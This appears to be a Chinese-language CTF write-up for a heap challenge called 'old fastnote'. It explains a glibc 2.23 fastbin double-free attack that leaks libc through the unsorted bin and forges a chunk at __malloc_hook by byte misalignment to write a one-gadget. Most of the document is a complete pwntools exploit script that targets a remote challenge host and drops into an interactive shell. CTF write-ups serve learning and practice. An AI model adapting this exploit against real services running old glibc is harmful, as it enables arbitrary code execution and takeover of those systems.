

# old fastnote

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

glibc 2.23，tcache还没有，打fastbin dup，先分配0x80的chunk在unsorted bin拿libc，
然后依次释放010堆块double free，写地址为mallocHook，最后分配过去写OneGadget拿shell

一开始想用freeHook的，但是因为fastbin在分配的时候会检查chunk size，而freeHook周围都是0，
所以用不了；而mallocHook周围有libc地址，可以利用字节错位，分配一个有效的chunk

## 分配示意



颜色是后期涂的，很明显，字节错位的要求是含有`p64(libc地址)+p64(0)`才可以

> 图中的地址是打不通的，仅作示意；黄色部分是mallocHook

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./oldfastnote')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('106.14.57.14', 30281)
    elf = ELF('eldering')
    libc = ELF('./libc-2.23.so')

    def addn(idx:int, size:int, content:bytes=b' ', hooked:bool=False):
        sh.sendlineafter(b'ice:', b'1')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendlineafter(b'Size', str(size).encode())
        if hooked:
            return
        sh.sendlineafter(b'Content', content)

    def deln(idx:int):
        sh.sendlineafter(b'ice:', b'3')
        sh.sendlineafter(b'Index', str(idx).encode())

    def show(idx:int) -> bytes:
        sh.sendlineafter(b'ice:', b'2')
        sh.sendlineafter(b'Index: ', str(idx).encode())
        return sh.recvline()

    # leak libc addr (unsorted bin)
    addn(15, 0x80)
    addn(14, 0x80) # prevent it being merged into top chunk
    deln(15)
    ret = show(15)

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(ret[:6] + b'\0\0')
    libcBase = mainArena - dumpArena - 0x58 # sub unsorted bin offset
    print(f'\x1b[33mleak libcBase: {hex(libcBase)}\x1b[0m')
    mallocHook = libcBase + libc.symbols['__malloc_hook']
    ogg = libcBase + 0xf1247
    if (libcBase >> 40) & 0b1 != 1:
        print('\x1b[33mmalloc_hook can not be alloced!\x1b[0m')
        sh.close()
        return 0

    # double free to malloc at mallocHook
    addn(0, 0x60)
    addn(1, 0x60)
    deln(0)
    deln(1)
    deln(0)                               # head -> 0 -> 1 -> 0
    addn(2, 0x60, p64(mallocHook - 0x23)) # head -> 1 -> 0 -> mallocHook [0]
    addn(3, 0x60)                         # head -> 0 -> mallocHook [1]
    addn(4, 0x60)                         # head -> mallocHook [0]
    addn(5, 0x60, b'\0'*0x13 + p64(ogg))  # write ogg on mallocHook
    addn(6, 0x18, b'\0', True) # trigger one gadget

    sh.clean()
    sh.interactive()
    return 1
```

> 一开始libc忘记调了，结果调偏移调不出来了:[
